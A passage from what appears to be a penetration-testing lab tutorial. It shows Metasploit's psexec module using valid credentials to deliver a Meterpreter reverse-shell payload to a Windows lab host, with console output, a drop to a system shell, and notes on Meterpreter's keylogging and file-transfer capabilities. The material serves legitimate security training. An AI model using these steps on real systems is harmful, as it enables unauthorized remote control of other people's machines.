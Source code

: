 ```shell

msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter >

```

After we issue the `exploit` command, the exploit is run, and there is an attempt to deliver the payload onto the target utilizing the Meterpreter payload. Metasploit reports back each step of this process, as seen in the output. We know this was successful because a `stage` was sent successfully, which established a Meterpreter shell session ( `meterpreter >`) and a system-level shell session. Keep in mind that Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target. The proper credentials and attack vector can give us the ability to upload & download files, execute system commands, run a keylogger, create/start/stop services, manage processes, and more.

In this case, as detailed in the [Rapid 7 Module Documentation](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/): "This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload. This module is similar to the "psexec" utility provided by SysInternals. This module is now able to clean up after itself. The service created by this tool uses a randomly chosen name and description. "

Like other command language interpreters (Bash, PowerShell, ksh, etc...), Meterpreter shell sessions allow us to issue a set of commands we can use to interact with the target system. We can use the `?` to see a list of commands we can use. We will notice limitations with the Meterpreter shell, so it is good to attempt to use the `shell` command to drop into a system-level shell if we need to work with the complete set of system commands native to our target.

#### Interactive Shell

```shell
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>

```

`Now let's put our knowledge to the test with some challenge questions`.
